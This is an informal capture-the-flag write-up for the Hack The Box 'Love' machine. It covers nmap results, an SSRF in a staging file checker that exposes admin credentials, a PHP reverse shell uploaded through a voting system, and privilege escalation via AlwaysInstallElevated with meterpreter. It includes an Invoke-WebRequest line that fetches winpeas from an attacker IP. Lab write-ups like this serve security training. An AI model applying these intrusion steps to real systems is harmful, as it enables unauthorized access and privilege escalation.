#Love

#### NMAP 

    PORT     STATE SERVICE      VERSION
    80/tcp   open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
    | http-cookie-flags: 
    |   /: 
    |     PHPSESSID: 
    |_      httponly flag not set
    |_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
    |_http-title: Voting System using PHP
    135/  tcp  open  msrpc        Microsoft Windows RPC
    139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
    443/tcp  open  ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
    |_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
    |_http-title: 403 Forbidden
    | ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
    | Not valid before: 2021-01-18T14:00:16
    |_Not valid after:  2022-01-18T14:00:16
    |_ssl-date: TLS randomness does not represent time
    | tls-alpn: 
    |_  http/1.1
    445/tcp  open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
    3306/tcp open  mysql?
    | fingerprint-strings: 
    |   DNSStatusRequestTCP, FourOhFourRequest, GenericLines, JavaRMI, LANDesk-RC, LDAPBindReq, LPDString, NCP, NULL, RPCCheck, RTSPRequest, SSLSessionReq,         TerminalServer, TerminalServerCookie, X11Probe: 
    |_    Host '10.10.14.172' is not allowed to connect to this MariaDB server
    5000/tcp open  http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
    |_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
    |_http-title: 403 Forbidden


love.htb = voting system

staging.love.htb = secucre file cecker

open staging.love.htb we have option to enter url tried with reverse shell but not working

we got 5000(unusual-tcp port) lets try with this http://127.0.0.1:5000 its works we got voting systems admin credentials. After logged in there is file upload functionality with this yes reverse shell..........

Windows revsershell
https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/minified/php_reverse_shell_mini.php 

reverse shell boom....

lets open find user.txt

    powershell
    dir && cd users && cd Desktop && cat user.tx

## privsec

Transfer winpeas local machine to box 
    
    Invoke-WebRequest http://10.10.14.172:8000/winpeas.exe -OutFile winpeas.exe

After runing winpeas we got result that AlwaysInstallElevated its enabled?

What is this? AlwaysInstallElevated?

For this purpose, the AlwaysInstallElevated policy feature is used to install an MSI package file with elevated (system) privileges. This policy is enabled in the Local Group Policy editor; directs the Windows Installer engine to use elevated permissions when it installs any program on the system. This method can make a machine vulnerable posing a high-security risk because a non-administrator user can run installations with elevated privileges and access many secure locations on the computer.

steps;;

create a meterpreter reverse pyload.exe and start reverse listerner
then send paload.exe to your victim box

then .\payload.exe trigger and ckeck lister got meterpreter shell 

now run meterpreter as background then use AlwaysInstallElevated metasploit exploit then set session 1 and set lhost tun0 exploit


boom got roottttttttt



